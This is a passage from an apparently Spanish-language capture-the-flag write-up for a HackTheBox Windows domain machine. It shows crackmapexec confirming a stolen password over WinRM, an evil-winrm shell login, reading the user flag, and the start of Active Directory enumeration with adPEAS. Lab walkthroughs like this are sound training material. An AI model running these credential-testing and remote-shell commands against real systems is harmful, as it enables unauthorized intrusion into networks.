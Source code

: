 Ahora probemos si sirve con **WinRM**:
```bash
crackmapexec winrm 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
SMB         10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```
Muy bien, si funciona.

Entremos a la máquina usando **Evil-WinRM**:
```batch
evil-winrm -i 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> whoami
manager\raven
```
Estamos dentro.

Busca la flag:
```batch
*Evil-WinRM* PS C:\Users\Raven\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Raven\Desktop> dir

    Directory: C:\Users\Raven\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/13/2024  12:10 AM             34 user.txt

*Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
```
Tenemos la flag del usuario.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="adPEAS">Enumeración de AD con adPEAS</h2>

Como siempre, la idea es enumerar el **AD** con **BloodHound y SharpHound** (lo haremos más adelante también) para encontrar un vector de ataque que nos ayude a escalar privilegios, pero en este caso, vamos a usar la herramienta **adPEAS**, que es similar a los **PEAS** que enumeran la máquina y encuentran vulnerabilidades.

Lo puedes obtener aquí:
* <a href="https://github.com/61106960/adPEAS" target="_blank">Repositorio de 61106960: adPEAS</a>
